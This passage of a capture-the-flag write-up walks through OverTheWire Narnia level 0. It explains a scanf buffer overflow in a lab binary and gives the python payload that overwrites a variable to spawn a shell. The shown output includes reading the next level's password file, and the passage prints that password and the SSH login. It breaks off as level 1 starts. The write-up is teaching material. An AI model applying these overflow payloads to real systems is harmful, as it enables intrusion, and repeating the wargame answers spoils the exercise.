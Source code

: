 ```c
        exit(1);
    }

    return 0;
}
```

To solve this challenge, we need to change the **val** value initialized with `0x41414141` to `0xdeadbeef`. 

Here, the issue come from the *scanf()* function. It allows the user to enter **24** chars however, the **buf** variable is only **20** bytes so, we can overwrite *4* bytes. 

Let's try to write 24 bytes as input and check if the address changes.

```bash
narnia0@narnia:/narnia$ python -c 'print 20 * "A" + "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```

It seems that we were able to modify the original value of **val** with `0x42424242`. We will do the same thing with the right value or `0xdeadbeef`

```bash
narnia0@narnia:/narnia$ (python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```

Easy, right ?

## Narnia 01 Solution

**SSH :** *ssh narnia1@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *efeidiedae*

First, let's try to execute the program...

```bash
narnia1@narnia:~$ cd /narnia/
narnia1@narnia:/narnia$ ./narnia1 
Give me something to execute at the env-variable EGG
```

Hum... It seems that we need to initialize an environment variable named **EGG**.

### Source Code
